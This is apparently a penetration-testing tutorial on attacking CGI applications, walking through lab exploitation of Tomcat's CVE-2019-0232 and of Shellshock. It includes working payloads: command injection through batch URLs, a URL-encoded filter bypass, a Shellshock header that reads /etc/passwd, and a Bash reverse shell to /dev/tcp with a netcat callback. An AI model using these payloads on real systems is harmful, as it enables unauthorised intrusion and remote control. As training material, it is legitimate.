

# Attacking Common Gateway Interfaces

A Common Gateway Interface is used to help a web server render dynamic pages and create a customized response for the user making a request via a web app. CGI apps are primarily used to access other apps running on a web server. CGI is essentially middleware between web servers, external databases, and information sources. CGI scripts and programs are kept in the ```/CGI-bin``` dir on a web server and can be written in C, C++, Java, PERL, etc. scripts run in the security context of the web server. They are often used for guest books, forms, mailing lists, blogs, etc. These scripts are language-independent and can be written very simply to perform advanced tasks much easier than writing them using server-side programming languages.

CGI scripts/applications are typically used for a few reasons:

- If the webserver must dynamically interact with the user
- When a user submits data to the web server by filling out a form. The CGI application would process the data and return the result to the user via the webserver

A graphical depiction of how CGI works can be seen below:



Broadly, the steps are as follows:

- A directory is created on the web server containing the CGI scripts/applications. This directory is typically called CGI-bin.
- The web application user sends a request to the server via a URL, i.e. ```https://acme.com/cgi-bin/newchiscript.pl```.
- The server runs the script and passed the resultant output back to the web client.

There are some disadvantages to using them: The CGI program starts a new process for each HTTP request which can take up a lot of server memory. A new database connection is opened each time. Data cannot be cached between page loads which reduces efficiency. However, the risks and inefficiencies outweigh the benefits, and CGI has not kept up with the times and has not evolved to work well with modern web apps. It has been superseded by faster and more secure technologies. However, as testers, you will run into web apps from time to time that still use CGI and will often see it when you encounter embedded devices during an assessment.

## Tomcat

The CGI Servlet is a vital component of Apache Tomcat that enables web servers to communicate with external applications beyond the Tomcat JVM. These external apps are typically CGI scripts written in languages like Perl, Python, or Bash. The CGI Servlet receives requests from web browsers and forwards them to CGI scripts for processing.

In essence, a CGI servlet is a program that runs on a web server, such as Apache2, to support the execution of external apps that conform to the CGI specifications. It is a middleware between web server and external information resources like databases.

CGI scripts are utilised in websites for several reasons, but there are also some pretty big disadvantages to using them:

| Advantages | Disadvantages |
| ---------- | ------------- |
| It is simple and effective for generating dynamic web content. | Incours overhead by having to load programs into memory for each request. |
| Use any programming language that can read from standard input and write to standard output. | Cannot easily cache data in memory between page requests. |
| Can reuse existing code and avoid writing new code. | It reduces the server's performance and consumes a lot of processing time. |

The ```enableCmdLineArguments``` setting for Apache Tomcat's CGI Servlet controls whether command line arguments are created from the query string. If set to true, the CGI Servlet parses the query string and passes it to the CGI script as arguments. This feature can make CGI scripts more flexible and easier to write by allowing parameters to be passed to the script without using environment variables or standard input. For example, a CGI script can use command line arguments to switch between action based on user input.

Suppose you have a CGI script that allows users to search for books in a bookstore's catalogue. The script has two possible actions: "search by title" and "search by author".

The CGI script can use command line arguments to switch between these actions. For instance, the script can be called with the following URL:

```
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby
```

Here, the ```action``` parameter is set to title, indicating that the script should search by book title. The ```query``` parameter specifies the search term "the great gatsby".

If the user wants to search by author, they can use a similar URL:

```
http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald
```

Here, the ```action``` parameter is set to ```author```, indicating that the script should search by author name. The ```query``` parameter specifies the search term "fitzgerald".

By using command line arguments, the CGI script can easily switch between different search actions based on user input. This makes the script more flexible and easier to use.

However, a problem arises when ```enableCmdLineArguments``` is enabled on Windows systems because the CGI Servlet fails to properly validate the input from the web browser before passing it to the CGI script. This can lead to an OS command injection attack, which allows an attacker to execute arbitrary commands on the target system by injecting them into another command.

For instance, an attacker can append ```dir``` to a valid command using ```&``` as a separator to execute ```dir``` on a Windows system. If an attacker controls the input to a CGI script that uses this command, they can inject their own commands, after ```&``` to execute any command on the server. An example of this is ```http://example.com/cgi-bin/hello.bat?&dir```, which passes ```&dir``` as an argument to hello.bat and executes ```dir``` on the server. As a result, an attacker can exploit the input validation error of the CGI Servlet to run any command on the server.

### Enumeration

Scan the target using Nmap, this will help to pinpoint active services currently operating on the system. This process will provide valuable insights into the target, discovering what services, and potentially which specific versions are running, allowing for a better understanding of its infrastructure and potential vulns.

```bash
d41y@htb[/htb]$ nmap -p- -sC -Pn 10.129.204.227 --open 

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 13:57 SAST
Nmap scan report for 10.129.204.227
Host is up (0.17s latency).
Not shown: 63648 closed tcp ports (conn-refused), 1873 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   2048 ae19ae07ef79b7905f1a7b8d42d56099 (RSA)
|   256 382e76cd0594a6e717d1808165262544 (ECDSA)
|_  256 35096912230f11bc546fddf797bd6150 (ED25519)
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm

Host script results:
| smb2-time: 
|   date: 2023-03-23T11:58:42
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 165.25 seconds
```

Here you can see that Nmap has identified Apache Tomcat/9.0.17 running on port 8080.

One way to uncover web server content is by utilising the ffuf web enumeration tool along with the dirb common.txt wordlist.

```bash
d41y@htb[/htb]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.204.227:8080/cgi/FUZZ.cmd
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

:: Progress: [4614/4614] :: Job [1/1] :: 223 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

Since the OS is Windows, you aim to fuzz for batch scripts. Although fuzzing for scripts with a .cmd extension is unsuccessful, you successfully uncover the welcome.bat file by fuzzing for files with a .bat extension.

```bash
d41y@htb[/htb]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.204.227:8080/cgi/FUZZ.bat
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 81, Words: 14, Lines: 2, Duration: 234ms]
    * FUZZ: welcome

:: Progress: [4614/4614] :: Job [1/1] :: 226 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

Navigating to the discovered URL at ```http://10.129.204.227:8080/cgi/welcome.bat``` returns a message:

```
Welcome to CGI, this section is not functional yet. Please return to home page.
```

### Exploitation

You can exploit CVE-2019-0232 by appending your own commands through the use of the batch command separator ```&```. You now have a valid CGI script path discovered during the enumeration at ```http://10.129.204.227:8080/cgi/welcome.bat```.

```
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

Navigating to the above URL returns the output for the ```dir``` batch command, however trying to run other common windows command line apps, such as ```whoami``` doesn't return an output.

Retrieve a list of environmental variables by calling the ```set``` command:

```
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

From the list, you can see that the ```PATH``` variable has been unset, so you will need to hardcode paths in requests:

```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

The attempt was unsuccessful, and Tomcat responded with an error message indicating that an invalid character had been encountered. Apache Tomcat introduced a patch that utilises a regular expression to prevent the use of special chars. However, the filter can be bypassed by URL-encoding the payload.

```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

## Shellshock

The Shellshock vuln allows an attacker to exploit old versions of Bash that save environment variables incorrectly. Typically when saving a function as a variable, the shell function will stop where it is defined to end by the creator. Vulnerable versions of Bash will allow an attacker to execute OS commands that are included after a function stored inside an environment variable. Look at a simple example where you define an environment variable and include a malicious command afterward.

```bash
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

When the above variable is assigned, Bash will interpret the ```y='() { :;};'``` portion as a function definition for a variable ```y```. The function does nothing but returns an exit code ```0```, but when it is imported, it will execute the command ```echo vulnerable-shellshock``` if the version of Bash is vulnerable. This will be run in the context of the web server user. Most of the time, this will be a user such as ```www-data```, and you will have access to the systme but still need to escalate privileges. Occasionally you will get really lucky and gain access as the root user if the web server is running in an elevated context.

If the system is not vulnerable, only ```not vulnerable``` will be printed.

```bash
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"

not vulnerable
```

This behavior no longer occurs on a patched system, as Bash will not execute code after a function definition is imported. Furthermore, Bash will no longer interpret ```y=() {...}``` as a function definition. But rather, function definitions within environment variables must now be prefixed with ```BASH_FUNC_```.

### Example

You can hunt for CGI scripts using a tool such as Gobuster. Here you find one, access.cgi.

```bash
d41y@htb[/htb]$ gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/23 09:26:29 Finished
```

Next, you can cURL the script and notice that nothing is output to you, so perhaps it is a defunct script but still worth exploring furter.

```bash
d41y@htb[/htb]$ curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

To check for the vuln, you can use a simple cURL command or use Burp to fuzz the user-agent field. Here you can see that the contents of ```/etc/passwd``` file are returned to you, thus confirming the vuln via the user-agent field.

```bash
d41y@htb[/htb]$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:112:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
kim:x:1000:1000:,,,:/home/kim:/bin/bash
```

Once the vuln has been confirmed, you can obtain revshell access in many ways. In this example, you can use a simple Bash one-liner and get a callback on your Netcat listener:

```bash
d41y@htb[/htb]$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

From here, you could begin hunting for sensitive data or attempt to escalate privileges. During a network penetration test, you could try to use this host to pivot further into the terminal network.

```bash
d41y@htb[/htb]$ sudo nc -lvnp 7777

listening on [any] 7777 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.204.231] 52840
bash: cannot set terminal process group (938): Inappropriate ioctl for device
bash: no job control in this shell
www-data@htb:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htb:/usr/lib/cgi-bin$
```